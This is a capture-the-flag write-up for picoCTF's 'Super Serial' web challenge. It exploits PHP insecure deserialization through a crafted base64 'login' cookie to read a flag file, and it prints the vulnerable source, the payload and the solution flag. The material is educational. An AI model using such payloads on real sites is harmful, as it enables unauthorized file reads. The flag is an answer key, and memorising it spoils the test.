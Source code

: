 # Super Serial
Author: dch0017

## Challenge Description
Try to recover the flag stored on this website

## Accessing Site
Getting onto the site we see a  basic login page: </br>
![website](./website.png)
</br>

## Digging Around
We look around at sources to see if anything sticks out at first and nothing comes up.

Let's try to do a login with a test username of ```admin``` and password of ```password```.

We do get an error message but all it gives us is ```Invalid Login```. But we are at ```index.php``` now. So now we know this is running PHP, let's poke around in the cookies.

## Cookies
In the Chrome dev console, we see that we have 2 cookies. A  ```auth_name``` and a ```PHPSESSID```.  The ```PHPSESSID``` is the default name set by PHP that tracks session. If we had an authenticated session we may be able to use that or the ```auth_name``` cookies, but for now we keep browsing.

## Robots
Now we're over on the ```robots.txt``` and I really should have checked here sooner (automatic web scraper coming soon). The contents are:
```
User-agent: *
Disallow: /admin.phps
```

Short but gives us a lot of information. ```PHPS``` files will give us the source code to a PHP file. So let's try to browse to ```/admin.phps```

## PHPS
</br>
![adminphps]](./adminphps.png)
</br>

No luck here, but if we look back the login page was an ```index.php``` so let's try browsing to ```index.phps``` and (I removed the HTML at the bottom of the .phps file to shorten):
```php
<?php
require_once("cookie.php");

if(isset($_POST["user"]) && isset($_POST["pass"])){
	$con = new SQLite3("../users.db");
	$username = $_POST["user"];
	$password = $_POST["pass"];
	$perm_res = new permissions($username, $password);
	if ($perm_res->is_guest() || $perm_res->is_admin()) {
		setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
		header("Location: authentication.php");
		die();
	} else {
		$msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
	}
}
?>
```

## Deeper into PHP
Quickly running through the PHP of ```index.phps```: cookies.php is imported, then a connection is made to a SQLite3 db called ```users.db```. The ```$username``` and ```$password``` inputted by us is then compared to the functions ```is_guest()``` and ```is_admin()``` in the ```cookie.php``` file. If either of those return true, our ```login``` cookie is reset (by serializing, base64 encoding, and then url encoding our username + combo) and our header will change to the output of ```authentication.php```.

## Authentication.phps
Let's try to browser over to the authentication phps file and see what we get (again HTML removed):
```php
<?php
class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
	$msg = "Welcome admin";
	$log = new access_log("access.log");
	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
	$msg = "Welcome guest";
}
?>
```
A few things stick out, one we should be able to just go straight to ```authentication.php``` and see the Welcome guest page, as there is no check for guests.</br>
![guest](./guest.png)
</br>

Secondly, we can see that we have a ```read_log()``` function which is called by another ```__toString()``` function to return the output of a specified file. According to the hint from the challenge our flag is located at ```../flag```.

## Serialization
The crucial part to this challenge is found in the ```cookie.phps``` file. At the end we see this:
```php
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
```
If a cookie named ```login``` is passed in, it will try to unpack that cookie (by base64 decoding, then unserializing) and checking it against ```is_guest()``` and ```is_admin()```. But if it fails it will catch the error and prints the unserialized variable.</br>

A good article for serialization and what I based my next steps off can be found here on [Medium by Vickie Li](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a)</br>

## Generating Serialized String
When we first browsed the ```authentication.phps``` file we saw that on a successful admin login, a new instance of the ```access_log``` class was initiated with a ```access.log``` file. The ```access_log``` class also has a ```__toString()``` method which outputs the contents of the file.

Using the article above, we create a serialized object that references an instance of ```access_log``` but has our flag file ```../flag``` as the log file it references. Following the steps we get:

```
O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}
```

Now to just base64 encode our string (from cyberchef) we get:
```TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9```

## CURL with Cookie
Finally let's pass our newly generated string over to ```authentication.php``` as the ```login``` cookie.:

```console
PS C:\temp\picoCTF\Web Exploitation\Super Serial> curl mercury.picoctf.net:3449/authentication.php --cookie "login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9"
Deserialization error. picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_b4e3f8b1}
```